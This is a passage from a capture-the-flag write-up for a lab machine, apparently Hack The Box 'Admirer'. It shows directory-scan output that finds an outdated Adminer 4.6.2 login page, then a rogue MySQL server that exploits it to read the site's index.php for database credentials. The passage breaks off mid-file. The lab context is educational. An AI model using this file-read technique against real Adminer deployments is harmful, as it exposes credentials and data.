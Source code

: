     START_TIME: Tue May  5 05:55:58 2020
    URL_BASE: http://10.10.10.187/utility-scripts/
    WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt
    EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

    -----------------

    GENERATED WORDS: 20458

    ---- Scanning URL: http://10.10.10.187/utility-scripts/ ----
    + http://10.10.10.187/utility-scripts/adminer.php (CODE:200|SIZE:4295)

## Adminer

[Adminer](https://www.adminer.org/) is a tools to manage your database directly
from your browser. It is a [phpmyadmin](https://www.phpmyadmin.net/)
alternative.

Obviously we land on a login page. The previously found credentials doesn't work.
But looking at the page, we see that the used version is "4.6.2" and that the
last version is "4.7.6".

![adminer page](/media/2020.xx/admirer_02.png)

We Google for "adminer 4.6.2 exploit" and found an article about a
[serious vulnerability in adminer tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

We just need a [Rogue MySql Server](https://github.com/allyshka/Rogue-MySql-Server).
We launch it and start getting some files. We try `db_connect.php` but the file
was obviously replace by `adminer.php`. We can retrieve `adminier.php` just to
be sure that our exploit is working. Then we just retrieve `../index.php` which
contain the new creds for the database.

    :::text
    kali@kali:~/Rogue-MySql-Server$ php roguemysql.php
    Enter filename to get [db_connect.php] > ../index.php
    [.] Waiting for connection on 0.0.0.0:3306
    [+] Connection from 10.10.10.187:47566 - greet... auth ok... some shit ok... want file...
    [+] ../index.php from 10.10.10.187:47566:
    <!DOCTYPE HTML>
    <!--
            Multiverse by HTML5 UP
            html5up.net | @ajlkn
            Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
    -->
    <html>
            <head>
                    <title>Admirer</title>
                    <meta charset="utf-8" />
                    <meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
                    <link rel="stylesheet" href="assets/css/main.css" />
                    <noscript><link rel="stylesheet" href="assets/css/noscript.css" /></noscript>
            </head>
            <body class="is-preload">
